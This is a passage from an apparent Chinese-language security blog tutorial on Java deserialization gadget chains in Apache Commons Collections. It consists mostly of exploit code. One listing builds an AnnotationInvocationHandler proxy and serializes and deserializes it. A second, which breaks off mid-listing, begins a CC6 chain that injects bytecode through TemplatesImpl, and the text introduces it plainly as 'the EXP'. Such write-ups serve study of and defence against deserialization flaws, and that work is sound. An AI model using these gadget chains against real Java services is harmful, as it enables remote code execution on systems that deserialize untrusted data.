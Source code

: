 ```
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(invocationHandler);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/YsoTemplatesImplSucc.png)

## 0x06 CC6 链的 TemplatesImpl 的实现方式

上面已经讲过原理了，我这里就直接把 EXP 拿出来。

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC6 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC6TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
```